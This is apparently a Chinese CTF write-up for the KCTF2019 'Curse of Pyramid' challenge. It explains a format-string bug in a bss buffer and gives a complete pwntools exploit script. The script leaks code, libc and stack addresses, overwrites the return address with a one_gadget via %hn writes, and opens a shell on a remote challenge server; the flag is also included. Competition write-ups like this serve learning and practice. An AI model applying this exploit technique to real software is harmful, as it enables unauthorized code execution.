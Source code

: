 ```yaml
---
title: 金字塔的诅咒
categories: 
- KCTF2019
---
```

# KCTF2019 CurseofPyramid

## 前言

看雪CTF2019的题，bss的格式化字符串，比较通用的解决思路，稍微记录一下

## 程序逻辑

程序就一个Main函数，里面printf一个bss段的用户输入值

![main](./1.jpg)

## 漏洞分析

可以多次利用漏洞，调试下到断点看到栈里有关于程序加载基址，栈地址，libc地址的值，挨个泄露出来。

断点到printf继续看栈，栈里有两个地址比较有趣,0xfff2e1e4和0xfff2e1e8，可以使用%n把0xfff2e274地址的值改为target_addr，用%n把0xfff2e27c地址的值改为target_addr+2。之后再到0xfff2e274把target_addr的值修改2字节，到0xfff2e27c把target_addr+2对的值修改2字节，即可完成任意地址任意写。

这里的target_addr即返回地址所在的栈地址，覆写成功即可返回到shell_addr   

![stack1](./2.jpg)

![stack2](./3.jpg)

## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='i386',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 0
if debug:
    p = process("./format")
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    gadgets = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6]

else:
    p = remote('152.136.18.34',9999)
    libc = ELF('./libc-2.23.so')
    gadgets = [0x3a80c,0x3a80e,0x3a812,0x3a819,0x5f065,0x5f066]

def Input(content):
    p.recvuntil('Choice:')
    p.sendline('1')
    p.recvuntil('What do tou want to say:')
    p.send(content)

def Exit():
    p.recvuntil('Choice:')
    p.sendline('2')

def ValToLis(value):
    value_high = value >> 16
    value_low = value & 0xffff
    value_lis = []
    '''
    value_lis.append(value_low & 0xff)
    value_lis.append(value_low >> 8)
    value_lis.append(value_high & 0xff)
    value_lis.append(value_high >> 8)
    '''
    value_lis.append(value_low)
    value_lis.append(value_high)
    return value_lis

def exp():
    #leak code base
    Input('%3$p')
    p.recvuntil('0x')
    code_base = int(p.recvline().strip('\n'),16) - 0x8f3
    log.success('code base => ' + hex(code_base))
    #leak libc
    Input('%11$p')
    p.recvuntil('0x')
    libc_base = int(p.recvline().strip('\n'),16) - 247 - libc.symbols['__libc_start_main']
    log.success('libc base => ' + hex(libc_base))
    #leak stack
    Input('%5$p')
    p.recvuntil('0x')
    ebp_addr = int(p.recvline().strip('\n')[:-1],16) - 172
    target_addr = ebp_addr + 20
    ## first 17$p then 53$p
    ## first 18$p  then 55$p
    log.success('ebp addr => ' + hex(ebp_addr))
    #3 get shell
    echo_addr = code_base + 0x200c
    #overwrite 0xff87ed84 to 0xff87ecdc

    #first
    val_lis = ValToLis(target_addr)
    payload = '%'+str(val_lis[0])+'c%17$hn'
    Input(payload)
    #second
    val_lis = ValToLis(target_addr+2)
    payload = '%'+str(val_lis[0])+'c%18$hn'
    Input(payload)
    shell_addr = libc_base + gadgets[1]
    log.success('shell addr => ' + hex(shell_addr))
    shell_lis = ValToLis(shell_addr)
    print shell_lis
    #first
    #gdb.attach(p)
    payload = '%'+str(shell_lis[0])+'c%53$hn'
    Input(payload)
    #second
    payload = '%'+str(shell_lis[1])+'c%55$hn'
    Input(payload)
    Exit()
    p.interactive()

exp()
'''
flag{c6671fc0-cea3-42ef-8af0-c20c65f854be}
'''
```
